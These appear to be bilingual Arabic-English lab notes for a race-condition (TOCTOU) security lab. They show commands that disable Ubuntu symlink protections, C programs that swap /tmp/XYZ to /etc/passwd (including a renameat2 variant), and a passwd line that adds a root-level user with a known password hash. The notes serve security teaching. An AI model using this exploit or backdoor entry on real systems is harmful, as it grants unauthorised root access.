



readme_content = """
# Lab: Race Condition Vulnerability - Documentation

هذا الملف يوثق فهمنا لهجوم Race Condition والخطوات الأولية لبدء اللاب.
This file documents our understanding of the Race Condition attack and the initial steps to start the lab.

## 1. ما هي ثغرة Race Condition؟ / What is a Race Condition?

**بالعربي:**
تحدث هذه الثغرة عندما تقوم عدة عمليات (Processes) بمحاولة الوصول إلى نفس الملف أو البيانات وتعديلها بشكل متزامن.
يعتمد نجاح الهجوم على استغلال "الفجوة الزمنية" (Race Window) بين لحظة التحقق من صلاحيات الملف (Check) ولحظة الكتابة فيه (Act). إذا استطاع المهاجم تبديل مسار الملف في هذه الفجوة الزمنية، فإنه يجبر البرنامج ذو الصلاحيات العالية (مثل الـ root) على تنفيذ أوامره على ملف حساس غير مقصود.

**In English:**
This vulnerability occurs when multiple processes attempt to access and modify the same file or data concurrently.
The attack success relies on exploiting the "Race Window" between the check of file permissions and the action of writing to the file. If an attacker can swap the file path within this tiny time window, they can trick a high-privileged program (like root) into executing operations on a sensitive file that was not intended.

---

## 2. خطوات البدء باللاب / Initial Lab Steps

**بالعربي:**
1. قمنا بالدخول إلى المجلد الخاص باللاب عبر التيرمينال: `cd Desktop/Labsetup/`.
2. تأكدنا من وجود ملفات العمل (`vulp.c` و `target_process.sh`) باستخدام أمر `ls`.
3. قمنا بإيقاف وسائل الحماية المدمجة في أوبونتو (Countermeasures) والتي تمنع تتبع الروابط الرمزية (Symlinks) في المجلدات العامة، وذلك باستخدام أوامر `sysctl`.

**In English:**
1. Navigated to the lab directory using: `cd Desktop/Labsetup/`.
2. Verified the presence of working files (`vulp.c` and `target_process.sh`) using the `ls` command.
3. Disabled built-in Ubuntu countermeasures that restrict symlink following in world-writable directories, using `sysctl` commands.

---

## 3. أوامر تعطيل الحماية / Commands to Disable Protections

لتنفيذ الهجمة، قمنا بتنفيذ الأوامر التالية في التيرمينال:
To execute the attack, we ran the following commands in the terminal:

```bash
sudo sysctl -w fs.protected_symlinks=0
sudo sysctl fs.protected_regular=0
```



readme_content = """
# Race Condition Attack Execution: Vulnerable Program & Exploit Script

هذا الملف يوثق الخطوات العملية لتنفيذ هجوم الـ Race Condition، بدءاً من تشغيل سكربت التبديل (الطرف الأول) وصولاً إلى تشغيل البرنامج المصاب (الطرف الثاني).
This file documents the practical steps to execute the Race Condition attack, starting from running the switching script (the first party) to running the vulnerable program (the second party).

---

## الخطوات التنفيذية / Execution Steps

### Step 1: Terminal Setup / فتح نافذتين ترمينال
بما أن هجوم الـ Race Condition يعتمد على سباق بين عمليتين، قم بفتح نافذتين للـ Terminal:
Since the Race Condition attack relies on a race between two processes, open two terminal windows:
- **Terminal 1:** For the attack/switching script.
- **Terminal 2:** For the vulnerable program script (`./target_process.sh`).

---

### Step 2: Create the Switching Script / إنشاء سكربت التبديل (الطرف الأول)
في النافذة الأولى، قم بإنشاء سكربت بلغة C لتبديل الرابط الرمزي بسرعة هائلة:
In the first window, create a C script to switch the symlink at high speed:

1. **Create the file:**
   ```bash
   nano attack.c
   ```
   * Paste the following code:
```bash
#include <unistd.h>

int main()
{
    while(1) {
        unlink("/tmp/XYZ");
        symlink("/etc/passwd", "/tmp/XYZ");
        usleep(1000);

        unlink("/tmp/XYZ");
        link("/dev/null", "/tmp/XYZ");
        usleep(1000);
    }
    return 0;
}
```
* Compile the script:
```bash
gcc attack.c -o attack
```

### Step 3: Run the Race / تشغيل السباق
الآن قم بتشغيل الطرفين بالتوازي:
Now, run both parties in parallel:

#### In Terminal 1 (The Attacker):
```bash
./attack
```
#### In Terminal 2 (The Target):
```bash
sudo ./target_process.sh
```
### Step 4: Result / مراقبة النتيجة
عند نجاح الهجوم واستغلال الـ Race Window، ستتوقف النافذة الثانية تلقائياً وتظهر الرسالة التالية:
Upon successfully exploiting the Race Window, the second terminal will stop and display the following message:

```bash
"STOP... The passwd file has been changed"
```


readme_content = """
# Task 1: Choosing Our Target - Manual Verification

هذا الملف يشرح كيفية التحقق يدوياً من صلاحية المستخدم الجديد والهدف من هذه المهمة.
This file explains how to manually verify the new user's privileges and the objective of this task.

---

## 1. الهدف من المهمة / Task Objective

**بالعربي:**
الهدف هو التأكد من أن إضافة سطر مستخدم جديد بـ User ID يساوي `0` إلى ملف `/etc/passwd` يمنح صلاحيات الـ Root فورياً. نستخدم قيمة سحرية (`U6aMy0wojraho`) لتجاوز كلمة المرور.

**In English:**
The goal is to verify that adding a new user entry with a User ID of `0` to `/etc/passwd` grants immediate Root privileges. We use a "magic value" (`U6aMy0wojraho`) to bypass the password prompt.

---

## 2. خطوات التنفيذ العملي / Practical Steps

### Step 1: Add the User Entry / إضافة سطر المستخدم
قمنا بإضافة المستخدم الجديد يدوياً إلى نهاية ملف النظام المحمي:
We manually added the new user to the end of the protected system file:

1. **Open the file with root privileges:**
   ```bash
   sudo nano /etc/passwd
 ```
* Add the following line to the end of the file:
```bash
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
```
### Step 2: Test the Account / اختبار الحساب
قمنا بالدخول بالحساب الجديد للتحقق من صلاحيات الـ Root:
We logged into the new account to verify Root privileges:

Switch to the new user:
```bash
su test
```
### Cleanup
بعد التأكد من نجاح الاختبار، يجب حذف السطر الذي أضفناه من ملف /etc/passwd ليعود النظام لحالته الأصلية.

In English:
After confirming the test's success, you must remove the added line from /etc/passwd to restore the system to its original state.

⚠️ ملاحظة هامة: تأكد دائماً من أخذ نسخة احتياطية للملف قبل التعديل عليه.
⚠️ Important Note: Always back up the file before making any changes.




# Task 2.A: Simulating A Slow Machine & Exploiting Race Condition
# المهمة 2.أ: محاكاة جهاز بطيء واستغلال ثغرة سباق الشروط

This file documents the complete practical steps for executing Task 2.A (simulating a slow machine via sleep(10) and manually exploiting the vulnerability).
هذا الملف يوثق الخطوات العملية الكاملة لتنفيذ المهمة الثانية (محاكاة جهاز بطيء عبر sleep(10) واستغلال الثغرة يدوياً).

---

## 1. Execution Steps / الخطوات التنفيذية

### Step 1: Modify and Compile the Vulnerable Program
### الخطوة الأولى: تعديل وبناء البرنامج المصاب

[AR] نقوم بتعديل كود البرنامج المصاب لجعله ينتظر 10 ثوانٍ بين فحص الصلاحيات وعملية الكتابة، ثم إعادة بنائه ومنحه صلاحيات الـ Root وإنشاء الملف المؤقت:
[EN] Modify the vulnerable program code to wait 10 seconds between checking permissions and writing, then recompile it, grant root privileges, and create the temporary file:

```bash
nano vulp.c
* (Add sleep(10); between access and fopen inside the code, then save and exit)
if (!access(fn, W_OK)) {
    sleep(10);  // <-- أضيفي هذا السطر هنا
    fp = fopen(fn, "a+");
    // ... باقي الكود
}

gcc vulp.c -o vulp
sudo chown root vulp
sudo chmod 4755 vulp
touch /tmp/XYZ
```
### Step 2: Run the Vulnerable Program (Terminal 1)
الخطوة الثانية: تشغيل البرنامج المصاب (النافذة الأولى)
[AR] في النافذة الأولى، نشغل البرنامج المصاب بصلاحيات الـ sudo ليبدأ العد التنازلي للـ 10 ثوانٍ:
[EN] In the first window, run the vulnerable program with sudo privileges to start the 10-second wait period:
```bash
sudo ./vulp
```
### Step 3: Change the Target File via Symbolic Link (Terminal 2)
الخطوة الثالثة: تغيير ملف الهدف عبر الرابط الرمزي (النافذة الثانية)
[AR] خلال فترة الـ 10 ثوانٍ (فترة الانتظار)، نفتح نافذة تيرمينال ثانية ونوجه الملف المؤقت إلى ملف /etc/passwd باستخدام الـ Symbolic Link:
[EN] During the 10-second sleep window, open a second terminal window and redirect the temporary file to /etc/passwd using a symbolic link:
```bash
ln -sf /etc/passwd /tmp/XYZ
```
### Step 4: Provide User Input & Test (Terminal 1)
الخطوة الرابعة: إدخال بيانات المستخدم والاختبار (النافذة الأولى)
[AR] نعود للنافذة الأولى، ندخل بيانات المستخدم الجديد (الذي يمنح صلاحيات الـ Root مع كلمة المرور السحرية)، ثم نختبر الدخول:
[EN] Return to the first terminal, input the new user data (which grants root privileges with the magic password), then test logging in:
```bash
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
* (Press Enter after inputting the text inside the program)
su test
* (Press Enter when prompted for the password to confirm successful transition to root privileges)
```

# Task 2.B: Launching the Real Race Condition Attack
# المهمة 2.ب: إطلاق هجوم سباق الشروط الحقيقي

This file documents the complete practical steps and explanations for executing the real Race Condition attack (Task 2.B), moving away from the simulated slow machine to a high-speed parallel attack.
هذا الملف يوثق الخطوات العملية الشاملة والشرح لتنفيذ هجوم الـ Race Condition الحقيقي (Task 2.B)، والانتقال من محاكاة الجهاز البطيء إلى هجوم عالي السرعة بالتوازي.

---

## 1. Concept Overview / فكرة المهمة العامة

[AR] 
في هذه المهمة، قمنا بإزالة محاكاة التأخير (`sleep(10)`) للعودة إلى الحالة الواقعية والخطيرة للبرنامج المصاب. وبما أن الفارق الزمني (Race Window) صغير جداً، لا يمكننا تنفيذه يدوياً؛ لذلك اعتمدنا على تشغيل برنامج هجوم مخصص بلغة C (`attack.c`) للتبديل السريع جداً بين الروابط بالتوازي مع سكربت استهداف مكرر (`target_process.sh`).

[EN] 
In this task, we removed the delay simulation (`sleep(10)`) to return to the realistic and vulnerable state of the program. Since the race window is extremely small, manual execution is impossible; therefore, we utilized a dedicated C attack program (`attack.c`) to switch symlinks at high speed in parallel with a repeated targeting script (`target_process.sh`).

---

## 2. Practical Execution Steps / الخطوات التنفيذية العملية

### Step 1: Remove the Sleep Statement from the Vulnerable Program
### الخطوة الأولى: إزالة أمر الانتظار من البرنامج المصاب

[AR] 
قمنا بفتح كود البرنامج المصاب وإزالة سطر الـ `sleep(10)` ليعود البرنامج لسرعته الطبيعية، ثم أعدنا بنائه ومنحه صلاحيات الـ Root.

[EN] 
We opened the vulnerable program's code, removed the `sleep(10)` line to restore its normal speed, and then recompiled it and granted it root privileges.

```bash
nano vulp.c
```
* (Remove the sleep(10); line from the code, save the file and exit)
```besh
gcc vulp.c -o vulp
sudo chown root vulp
sudo chmod 4755 vulp
touch /tmp/XYZ
```
### Step 2: Create the High-Speed Attack Script (attack.c)
* We created a C program running an infinite loop (while(1)) to toggle the temporary symlink /tmp/XYZ at extreme speed between /etc/passwd and /dev/null.
```besh
nano attack.c

#include <unistd.h>
int main(){
    while(1) {
        unlink("/tmp/XYZ");
        symlink("/etc/passwd", "/tmp/XYZ");
        usleep(1000);

        unlink("/tmp/XYZ");
        link("/dev/null", "/tmp/XYZ");
        usleep(1000);
    }
    return 0;
}

```
```besh
gcc attack.c -o attack
```
### Step 3: Run the Real Attack in Parallel (Two Terminals)
الخطوة الثالثة: تشغيل الهجوم الحقيقي بالتوازي (في نافذتين)
[AR]
لكى ننجح في اقتناص النافذة الزمنية للثغرة، قمنا بتشغيل العملية على طرفيتين (Terminals) في نفس الوقت:

النافذة الأولى: لتشغيل برنامج التبديل السريع (attack).

النافذة الثانية: لتشغيل سكربت استهداف البرنامج المصاب مراراً وتكراراً مع معالجة الصلاحيات بـ sudo.

[EN]
To successfully capture the race window, we ran the process across two terminals simultaneously:

Terminal 1: To run the rapid-switching program (attack).

Terminal 2: To run the automated target script repeatedly with sudo.

#### Terminal 1:
```besh
./attack
```
#### Terminal 2:
```besh
sudo ./target_process.sh
```
### Step 4: Attack Success & Verification / نجاح الهجوم والتحقق
[AR]
بعد ترك السكربتين يعملان معاً لعدة ثوانٍ، نجح السباق وتوقف السكربت في النافذة الثانية تلقائياً طابعاً رسالة النجاح:
"STOP... The passwd file has been changed"


# Task 2.C: An Improved Attack Method
# المهمة 2.ج: طريقة هجوم محسنة

This file documents the concepts and steps for Task 2.C, which introduces an improved, atomic attack method using the `renameat2` system call to prevent race condition issues within the attack program itself.
هذا الملف يوثق مفاهيم وخطوات المهمة 2.ج، والتي تقدم طريقة هجوم محسنة وعملية ذرية (Atomic) باستخدام استدعاء النظام `renameat2` لمنع مشاكل سباق الشروط داخل برنامج الهجوم نفسه.

---

## 1. Concept Overview / فكرة المهمة العامة

[AR] 
في المهمة السابقة (2.B)، قد يقع برنامج الهجوم في مشكلة إذا تم مقاطعته بعد تنفيذ `unlink()` وقبل `symlink()`، حيث يقوم البرنامج المصاب بإنشاء الملف المؤقت ويصبح ملكاً للـ Root (`sticky bit issue`)، مما يمنع برنامج الهجوم من حذفه لاحقاً ويتوقف عن العمل. لحل هذه المشكلة، نحتاج إلى جعل عملية تبديل الروابط عملية واحدة غير قابلة للمقاطعة (Atomic) باستخدام `renameat2` و `RENAME_EXCHANGE`.

[EN] 
In Task 2.B, the attack program could fail if interrupted between `unlink()` and `symlink()`, causing the victim program to create the temp file as root (due to the sticky bit), preventing further deletion. To solve this, we need to make the symlink swapping atomic using `renameat2` and `RENAME_EXCHANGE`.

---

## 2. Practical Execution Steps / الخطوات التنفيذية العملية

### Step 1: Update the Attack Program (attack.c)
### الخطوة الأولى: تحديث برنامج الهجوم (attack.c)

[AR] 
قمنا بتعديل كود برنامج الهجوم ليستخدم الطريقة المحسنة التي تعتمد على `renameat2` لتبديل الروابط بشكل ذري وآمن دون مشاكل سباق داخلية.

[EN] 
We updated the attack program code to use the improved method relying on `renameat2` for atomic and safe symlink swapping.

```bash
nano attack.c
```
* (Paste the new atomic attack code)
```bash
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>

int main()
{
    unsigned int flags = RENAME_EXCHANGE;
    unlink("/tmp/XYZ");
    symlink("/dev/null", "/tmp/XYZ");
    unlink("/tmp/ABC");
    symlink("/etc/passwd", "/tmp/ABC");

    while(1) {
        renameat2(0, "/tmp/XYZ", 0, "/tmp/ABC", flags);
    }
    return 0;
}
```
* We compiled the updated attack program:
gcc attack.c -o attack

Like before, we ran the attack using two terminals in parallel to ensure fast and secure success:

Terminal 1: Run the updated attack program (./attack).

Terminal 2: Run the target script with privileges (sudo ./target_process.sh).

Terminal 1:

```Bash
./attack
```
Terminal 2:

```Bash
sudo ./target_process.sh
```
